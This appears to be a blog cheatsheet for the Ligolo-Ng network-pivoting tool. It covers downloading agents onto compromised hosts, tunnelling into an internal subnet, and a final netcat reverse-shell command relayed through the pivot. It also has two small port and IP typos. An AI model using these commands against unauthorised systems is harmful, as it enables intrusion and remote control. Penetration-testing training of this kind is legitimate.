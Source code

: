 ```yaml
---
layout: post
title:  Ligolo-Ng Cheatsheet
description: Cheatsheet for Ligolo-Ng
date:   2024-10-31 09:00:00 +0300
image:  '/images/21.jpg'
tags:   [Cheatsheets, Tools, Pivoting]
---
```

# Getting Ligolo-Ng
Important Note: Make sure you are always using the same version of Proxy and Agent (For example, both Proxy and Agent must be 0.7.2).

## Download the binaries manually (recommended)
### PROXY (Run this on Kali)
- [Linux 64-bits Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bits Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_windows_amd64.zip)

### AGENT (Run this on Pivot Host)
- [Linux 64-bits Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bits Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_windows_amd64.zip)

For more information about Ligolo-Ng, visit its official [GitHub Repository](https://github.com/nicocha30/ligolo-ng).

# Alternative with Package Installer
```shell
sudo apt install ligolo-ng

# Locate, copy the needed files and run them (Example with agent file)
sudo updatedb -v
locate agent
sudo cp /path/to/ligolo/agent .
sudo chmod +x agent
./agent
```

# Basic Pivot
Move the agent file into the pivot host:
```shell
# On Kali
sudo cp /home/kali/Downloads/ligolo-ng_agent_0.7.2_linux_amd64/agent .
python3 -m http.server 443

# On Target (Linux)
cd /tmp
wget http://<kali_ip>:443/agent

# On Target (Windows using PowerShell)
cd C:\Windows\Temp
powershell -c iwr http://<kali_ip>:443/agent.exe -OutFile agent.exe
```
Set up Ligolo-Ng on Kali:
```shell
# Create an interface
sudo ip tuntap add user Vorkharium mode tun ligolo
sudo ip link set ligolo up

# Add new IP range we want to access (Examine Pivot Host with ifconfig, ip a, etc commands)
sudo ip route add 172.16.150.0/24 dev ligolo
ip route list

# Run the proxy file
sudo chmod +x proxy
./proxy -selfcert

# The Ligolo-Ng console will now open (We will interact with it soon)
```

On the Pivot target, use the agent file to connect to our running proxy:
```shell
# On Linux
chmod +x agent
./agent --connect <kali_ip>:11601 -ignore-cert

# On Windows PowerShell
./agent.exe --connect <kali_ip>:11601 -ignore-cert

```

Now enter the following on the Ligolo-Ng console:
```shell
# Enter "session" to show the available sessions
ligolo-ng » session

# Enter "1" to select the session we created when using the agent (There is only one session to choose in this case)
? Specify a session : 1

# Enter "start" to start the connection
[Agent : hackme@compromisedmachine] » start

# Now we are able to access the network 172.16.150.0/24
```

## File Transfer Example with Single Pivot
In this example:
- We got access into the Host B 172.16.150.20 (We are inside its CLI).
- We previously set up our Pivot Host A, in this case 172.16.150.10.
- Now we want to move a file from Kali (192.168.45.200) to Host B (172.16.150.20) through our Pivot Host A (172.16.150.10).

To achieve that, we will create a new listener in our active Ligolo-Ng session:
```shell
# Create new listener - Port 1234 on Kali will be the Port 9001 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-Ng session
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:9001

# Start Python server on Kali using Port 1234
python3 -m http.server 1234

# From the Host B CLI, access Python server through Port 9003 at the Pivot Host
wget http://172.16.150.10:9001/test.txt
```

## Reverse Shell Example with Single Pivot
Following the example above, we will create a new listener, but this time we will use that listener to get a Reverse Shell:
```shell
# Create new listener - Port 1235 on Kali will be the Port 9002 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-Ng session
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:9002

# Start nc listener on Kali Port 1235
nc -lvnp 1235

# Enter the following at Linux CLI on Host B to access the nc listener through Pivot Host A Port 9002
nc 172.16.150.10 9002 -e /bin/sh

# Now we successfully got a shell from the Host B (172.16.50.20) to our Kali
```
